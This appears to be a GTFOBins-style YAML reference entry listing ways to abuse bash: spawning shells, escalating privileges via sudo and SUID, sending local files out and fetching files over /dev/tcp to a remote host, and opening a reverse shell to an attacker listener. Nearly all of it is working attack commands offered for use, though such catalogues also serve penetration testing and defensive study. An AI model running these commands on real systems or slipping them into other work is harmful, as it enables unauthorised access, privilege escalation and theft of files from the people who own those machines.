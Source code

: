 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file from the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 8000 < "file_to_send"` to send the file from the other end.
      code: |-
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
---
```

